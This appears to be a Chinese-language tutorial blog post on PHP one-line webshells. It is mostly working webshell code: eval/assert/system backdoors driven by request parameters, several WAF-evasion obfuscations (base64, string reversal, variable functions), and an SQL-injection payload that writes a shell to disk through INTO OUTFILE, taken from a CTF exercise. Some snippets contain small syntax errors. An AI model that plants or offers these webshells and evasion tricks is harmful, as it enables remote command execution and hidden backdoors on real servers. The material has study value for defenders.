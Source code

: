 +++
title = "一句话木马"
date = 2025-06-01
updated = 2025-06-09
[taxonomies]
categories = ["web"]
tags = ["game", "network"]
[extra]
lang = "zh"
toc = true
comment = true
math = true
mermaid = true
reaction = true
copy = false
+++

### 一句话木马

一句木马短小精悍，而且功能强大，隐蔽性非常好，在入侵中始终扮演着强大的作用。黑客多在注册信息的电子邮箱或者个人主页等中运行该木马。

顾名思义是执行恶意指令的木马，通过技术手段上传到指定服务器上并可以正常访问。

举一个小栗子：

```php
<?php system($_GET['a']);?>
```

可以通过URL参数执行系统命令

http://localhost:3000/hit.php?a=whoami

比如传入whoami查看当前用户

还有ipconfig

![image-20250609225843148](/imgs/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%AE%80%E5%8D%95%E5%AD%A6%E4%B9%A0.assets/image-20250609225843148.png)

再换成post,使用hackbar

```php
<?php system($_POST['a']);?>
```

![image-20250609230351762](/imgs/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%AE%80%E5%8D%95%E5%AD%A6%E4%B9%A0.assets/image-20250609230351762.png)

看下面的代码，这个是php一句话木马的代码

```php
<?php eval(@$_POST['abc']); ?>
```

这段PHP代码的功能是执行通过POST请求传递过来的参数，我用post提交什么，服务器执行什么，也是说把这个代码上传上去之后，我让你服务器干啥干啥，甚至我让你服务器删除所有文件都会删除

具体来说，`eval(@$_POST['abc']);` 原理是

- `eval()` 是PHP的一个内置函数，用于执行字符串作为PHP代码。
- `@` 是一个操作符，用于抑制可能的错误消息。在这里，它抑制了`$_POST['a']`可能引发的错误（例如，如果`$_POST['a']`不存在或者不是有效的代码字符串）。
- `$_POST['a']` 是一个从HTTP POST请求中获取的变量。它应该是一个字符串，该字符串包含要执行的PHP代码。

# 其他函数

## `assert`

```php
<?php @assert($_POST['shell']);?>
```

## `create_function`

```php
<?php
$fun = @create_function('',$_POST['shell']);
@$fun();
?>
```

## `call_user_func` 回调函数

```php
<?php @call_user_func(assert,$_POST['shell']);?>
```

`call_user_func` 函数的第一个参数调用其他函数，第二个参数为该调用函数传参。一些被waf拦截的的可配合这个函数绕过waf。

## `preg_replace`

```php
<?php
@preg_replace("/abcde/e",$_POST['shell'],"abcdefg");
?>
```

该函数利作用是使用正则表达式替换符合条件的字符串，但该函数可执行命令。函数的第一个参数是正则表达式，按照 PHP 的格式，表达式在`/`间，若在`/`末尾加 `e`，这个函数的第二个参数就会被当作代码执行。

## `file_put_contents`

```php
<?php
$test=<?php $a=$_POST['shell'];assert($a)?>;
@file_put_contents("Biu.php,$test")
?>
```

利用函数生成木马文件，第一个参数是文件名，第二个参数是文件内容

# 一句话木马绕过waf

WAF （Web 应用防火墙）用于保护 Web 应用不被各类应用层攻击,如跨站脚本(XSS)、SQL注入、cookie中毒等，通常以关键字判断是否为一句话木马。

**本节仅是绕过一些基础的关键字查杀 WAF，更多免杀请产考：**[免杀/一句话木马(PHP)](https://xz.aliyun.com/t/9246)

## 变量函数

**变量函数(可变函数)** : 变量名后有圆括号，PHP将寻找与变量的值同名的函数，并尝试执行。**即使用变量作为函数名的函数**

**注意: eval是一个语言构造器而不是一个函数，不能被变量函数调用。**

```php
<?php
$test="assert";
@$test($_POST['shell']);
?>
```

有时需要使用大小写混淆、字符串拼接、字符串逆序等变化达到绕过

```php
<?php
$a="TR"."Es"."sA";
$b=strtolower($a);
$c=strrev($b)
@$c($_POST['shell']);
?>
```

## 可变变量

**eval不可用，与可变函数同理**

```php
<?php
$bb="assert";
$a= "bb";
@$$a($_POST['shell']);
?>
$$a = ${$a} = ${'bb'} = $bb = "assert"
```

## `str_replace` 函数

```php
<?php
$a=str_replace("Hell","","assHellert");
@$a($_POST['shell']);
?>
```

在第三个参数中查找第一个参数，并将其替换为第二个参数，这里第二个参数为空字符串，相应删除 `Hell`

## `base64_decode` 函数

```php
<?php
$a=base64_decode("YXNzZXJ0");
@$a($_POST['shell']);
?>
```

`YXNzZXJ0` 是 `assert` 的base64编码

## `parse_str` 函数

```php
parse_str("a=assert");
@$a($_POST['a']);
```

生成变量 `a` 并赋值 `assert`

## 自定义函数

```php
<?php
function fun($a){@eval($a)};
@fun($_POST['shell']);
?>
```

使用自定义函数调用`eval`

通常都是使用多个组合才能达到绕过 WAF 的目的。

在函数前加 `@` 符，可让php语句不显示错误信息，加强隐蔽性。



一道简单ctf，是ctfshow里面的：

![img](/imgs/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%AE%80%E5%8D%95%E5%AD%A6%E4%B9%A0.assets/20201202004532573.png)

可以用payload做，访问txt。当然也可以构造一句话`1'union select "<?php @eval($_POST['cmd']);?>" into outfile 'C:/phpStudy/WWW/shell.php'--+`来写入一句话木马

